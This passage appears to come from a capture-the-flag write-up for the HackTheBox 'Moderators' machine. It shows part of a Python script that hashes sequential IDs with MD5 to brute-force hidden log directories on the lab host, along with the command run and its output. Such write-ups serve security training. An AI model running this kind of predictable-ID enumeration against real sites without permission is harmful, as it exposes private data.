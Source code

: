 ```python
    else:
        return

def createMd5(id):
    md5sum = hashlib.md5(str(id).encode()).hexdigest()
    return(md5sum)
                                                                         

def main():
    start = time.time()
    formatter = lambda prog: argparse.HelpFormatter(prog,max_help_position=70)
    parser = argparse.ArgumentParser(formatter_class=formatter)
    parser.add_argument('-t','--target', type=str, help='target url')
    parser.add_argument('-s','--start', type=int, help='start id')
    parser.add_argument('-e','--end', type=int, help='end id')
    args = parser.parse_args()

    # Loop through start to end
    for i in range(args.start, args.end):
        print("Testing nr.", i)
        md5sum = createMd5(i)
        getUrl(args.target, md5sum)

    # Print all results stored in 'storage'
    if not storage:
        print("Nothing found..")
    else:
        for i in range(len(storage)):
            print("Results", i, "-", storage[i])

    end = time.time()
    print("time elapsed:", end - start, "seconds")

    
if __name__ == "__main__":
    main()
```

Sadly running the script with start 1 and end 10000 doesn't give us anything that we already knew.. 
```bash
➜  moderators python3 findLogs.py -t http://moderators.htb/logs/ -s 1 -e 10000
Testing nr. 1
[... snip ...]
Testing nr. 9999
Results 0 - http://moderators.htb/logs/743c41a921516b04afde48bb48e28ce6/
Results 1 - http://moderators.htb/logs/b071cfa81605a94ad80cfa2bbc747448/
Results 2 - http://moderators.htb/logs/74d90aafda34e6060f9e8433962d14fd/
Results 3 - http://moderators.htb/logs/ce5d75028d92047a9ec617acb9c34ce6/
Results 4 - http://moderators.htb/logs/afecc60f82be41c1b52f6705ec69e0f1/
Results 5 - http://moderators.htb/logs/e21cece511f43a5cb18d4932429915ed/
time elapsed: 435.2408220767975 seconds
```
